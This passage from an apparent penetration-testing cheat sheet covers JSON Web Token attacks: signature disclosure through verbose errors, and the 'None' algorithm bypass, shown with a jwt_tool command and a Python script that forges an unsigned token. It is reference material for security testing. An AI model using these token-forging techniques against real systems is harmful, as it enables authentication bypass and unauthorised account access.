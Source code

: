Send a JWT with an incorrect signature, the endpoint might respond with an error disclosing the correct one.

* [jwt-dotnet/jwt: Critical Security Fix Required: You disclose the correct signature with each SignatureVerificationException... #61](https://github.com/jwt-dotnet/jwt/issues/61)
* [CVE-2019-7644: Security Vulnerability in Auth0-WCF-Service-JWT](https://auth0.com/docs/secure/security-guidance/security-bulletins/cve-2019-7644)

```
Invalid signature. Expected SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c got 9twuPVu9Wj3PBneGw1ctrf3knr7RX12v-UwocfLhXIs
Invalid signature. Expected 8Qh5lJ5gSaQylkSdaCIDBoOqKzhoJ0Nutkkap8RgB1Y= got 8Qh5lJ5gSaQylkSdaCIDBoOqKzhoJ0Nutkkap8RgBOo=
```


### JWT Signature - None Algorithm (CVE-2015-9235)

JWT supports a `None` algorithm for signature. This was probably introduced to debug applications. However, this can have a severe impact on the security of the application.

None algorithm variants:
* none 
* None
* NONE
* nOnE

To exploit this vulnerability, you just need to decode the JWT and change the algorithm used for the signature. Then you can submit your new JWT. However, this won't work unless you **remove** the signature

Alternatively you can modify an existing JWT (be careful with the expiration time)

* Using [ticarpi/jwt_tool](#)
    ```ps1
    python3 jwt_tool.py [JWT_HERE] -X a
    ```

* Manually editing the JWT
    ```python
    import jwt

    jwtToken = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXUyJ9.eyJsb2dpbiI6InRlc3QiLCJpYXQiOiIxNTA3NzU1NTcwIn0.YWUyMGU4YTI2ZGEyZTQ1MzYzOWRkMjI5YzIyZmZhZWM0NmRlMWVhNTM3NTQwYWY2MGU5ZGMwNjBmMmU1ODQ3OQ'
    decodedToken = jwt.decode(jwtToken, verify=False)  					

    # decode the token before encoding with type 'None'
    noneEncoded = jwt.encode(decodedToken, key='', algorithm=None)

    print(noneEncoded.decode())
    ```


### JWT Signature - Key Confusion Attack RS256 to HS256 (CVE-2016-5431)

